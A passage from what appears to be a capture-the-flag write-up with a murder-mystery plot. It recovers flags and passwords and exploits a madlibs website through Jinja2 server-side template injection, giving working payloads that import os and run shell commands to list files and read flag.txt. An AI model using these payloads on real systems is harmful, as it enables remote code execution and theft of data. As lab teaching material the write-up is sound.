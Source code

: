 The bytes in the third column are the bytes that have been changed. Decoding these updated bytes as ASCII gives us the flag `flag{5uch_4_c00l_pr0j3ct!!}` and a password, `y4z00_tr1but4ry`, to use later.

### Long's Madlibs

This post from Long gives a new website to explore:

> I made my first website! Go check it out and let me know if you like it http://madlibs.chals.mcpshsf.com

This website is a madlibs game, where you can fill in the blanks and get a story. Because our input is reflected back to us, we should test for a [template injection attack](https://portswigger.net/web-security/server-side-template-injection). Trying the string `{{ 7 + 7 }}` confirms that this is a template injection attack and gives us the template language, Jinja2. Running this payload `{{request.application.__globals__.__builtins__.__import__('os')
.popen('ls').read()}}` gives us the files on the system:

```
flag.txt letter.txt main.py static templates
```

Running `{{request.application.__globals__.__builtins__.__import__('os')
.popen('cat flag.txt').read()}}` gives us the flag: `flag{th1s_1s_a_t3mp14t3_f0r_fl4sk5_4nd_inj3ct1on5}`. We can also read the file `letter.txt` to get the following message:

> Dear Diary, I can't believe how upset I am right now. I asked Chance for some Latkes and he never responded! I was really looking forward to enjoying those crispy, delicious potato pancakes, and I was practically salivating at the thought of smothering them with sour cream and applesauce. Now, I'm sitting here in my kitchen, feeling sorry for myself, and hungry as can be. I can't stop thinking about those latkes, and how amazing they would have tasted if only I had been able to get my hands on some potatoes. It's not fair, really. I mean, who runs out of latkes? I know it's silly to get so worked up over something as simple as food, but I can't help it. I was really looking forward to those latkes, and now I'm just mad that I didn't get to enjoy them. I guess I'll just sulk in my room and try to forget about those delicious, crispy latkes that I missed out on. I might have to hit something if I don't get those latkes.

This is more evidence that Long is the murderer, as he is so mad at Chance that he would hit something. This could mean that he has a strong enough motive to kill Chance.

### Other Clues

First, looking at the comments on the Robot images, we find that someone stole Hubbz's pan:

> BRUH SOMEONE STOLE MY PAN OMG

This clears Hubbz as a suspect, as the murder weapon was stolen from him.

Lastly, a post from Karst gives a filesharing website, [htts://fileshare-flask.chals.mcpshsf.com](https://fileshare-flask.chals.mcpshsf.com). Using the username for the pan image, `k4r5t_t0p0gr4phy`, and the password from the robot images, `y4z00_tr1but4ry`, we can log in and look for more clues.

## Chance's Blog

Before we look at the filesharing site, let's go back and investigate Chance's blog that he posted to Twitter.
